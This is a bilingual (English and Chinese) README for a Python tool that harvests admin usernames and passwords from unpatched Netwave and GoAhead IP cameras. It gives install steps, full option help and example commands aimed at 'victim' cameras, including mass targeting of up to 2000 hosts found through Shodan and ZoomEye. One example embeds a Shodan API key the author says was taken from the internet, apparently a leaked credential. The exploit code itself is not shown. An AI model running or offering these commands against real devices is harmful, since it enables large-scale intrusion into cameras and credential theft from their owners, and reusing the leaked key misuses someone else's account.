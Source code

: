 # Expcamera
Exploit Netwave and GoAhead IP Camera  
Expcamera is a tool for exploiting vulnerable Netwave and GoAhead IP camera to get the username and password.  
Environment:Linux,Python3  
	
**Attention:this tool is just for educational!**  
**Please comply with local laws and regulations!**  

# Installation
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# Usage
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v]   
				 [-i IP | -l INPUTFILE | --shodan SHODAN | --zoomeye ZOOMEYE]

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit  
	  -b {1,2},--brand {1,2}  
		         Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.  
	  -o OUTPUTFILE,--output OUTPUTFILE  
		         Output into path you input.The default path in dir /tmp  
	  -T TIMEOUT,--timeout TIMEOUT  
		         The default timout for netwave is 300s.  
	  -t TASKS,--task TASKS  
	                 Run TASKS number of connects in parallel,default is 10  
	  -c COUNT,--count COUNT
			 The number of ip you want to get from ZoomEye.The maximum is 2000. Default is 100.
	  -q,--quiet     Quiet mode.  
	  -v,--verbose   Show more informations.  
	  -i IP,--ip IP  The camera's ip and port.Example: 192.168.1.100:80  
	  -l INPUTFILE,--list INPUTFILE  
		         The camera's ip:port address file. The file's format  
			 like this 192.168.1.100:80 in a line.  
	  --shodan SHODAN
			 Your Shodan API Key. You can get help from https://www.shodan.io/
	  --zoomeye ZOOMEYE
			 Your ZoomEye API Key. You can get help from https://www.zoomeye.org/api
# Example
1.Victim IP Camera's brand is Netwave.The ip is 192.168.1.100 and port is 80.  

	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.Victim IP Camera's brand is GoAhead.The iplist.txt is given.   
The iplist.txt show as below:  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -l iplist.txt -v

3.Use Shodan API Key to exploit GoAhead.(The API Key is from internet.)

	python3 exploit_camera.py -b 2 -v --shodan lIzylEk4vS3k8TtAR9QreK24tG0b8xBZ
	
# Contacts
pu.xiaorvp@gmail.com  

# References
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
http://www.cert.org.cn/publish/main/9/2017/20170320152751379105282/20170320152751379105282_.html  


# 中文版
Netwave和GoAhead多款摄像头密码泄漏漏洞的利用工具。  
本工具用于针对仍未修补漏洞的摄像头，可以获取摄像头的管理员账户和密码。  
使用环境：Linux,Python3。  

**注意：此工具只用于学习交流目的。**  
**请严格遵守您所在国家的法律法规！**  

# 安装
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# 使用
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v]   
				 [-i IP | -l INPUTFILE | --shodan SHODAN | --zoomeye ZOOMEYE]

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit.帮助信息   
	  -b {1,2}       Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.选择摄像头品牌，1代表Netwave，2代表GoAhead。  
	  -o OUTPUTFILE  Output into path you input.The default path in dir /tmp.输出文件路径，默认为/tmp  
	  -T TIMEOUT     The default timout for netwave is 300s.默认超时时间为300s。  
	  -t TASKS       Run TASKS number of connects in parallel,default is 10.多任务同时处理，默认为10。  
	  -c COUNT	 The number of ip you want to get from ZoomEye.The maximum is 2000. Default is 100.
			 你可以从ZoomEye上获取的ip数量。最大值为2000。默认值为100。 
	  -q             Quiet mode.安静模式。  
	  -v             Show more informations.显示更多信息。    
	  -i IP          The camera's ip and port.Example: 192.168.1.100:80.摄像头ip和port形式。例如：192.168.1.100:80。    
	  -l INPUTFILE   The camera's ip:port address file. The file's format like  
	                 this 192.168.1.100:80 in a line.摄像头ip和port文件格式。每一行都以192.168.1.100:80的形式。 
	  --shodan SHODAN
			 Your Shodan API Key. You can get help from https://www.shodan.io/
			 你Shodan的API Key。你可以从https://www.shodan.io/获取帮助。
	  --zoomeye ZOOMEYE
			 Your ZoomEye API Key. You can get help from https://www.zoomeye.org/api
			 你ZoomEye的API Key。你可以从https://www.zoomeye.org/api获取帮助。

 
# 例子
1.摄像头品牌为Netwave。IP地址为192.168.1.100, port端口为80。  

	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.摄像头品牌为GoAhead。IP地址文件iplist.txt如下所示：  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -l iplist.txt -v
	
3.使用Shodan的API Key进行攻击GoAhead品牌摄像头。

	python3 exploit_camera.py -b 2 -v --shodan lIzylEk4vS3k8TtAR9QreK24tG0b8xBZ
# 联系方式
pu.xiaorvp@gmail.com  

# 参考
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
http://www.cert.org.cn/publish/main/9/2017/20170320152751379105282/20170320152751379105282_.html  


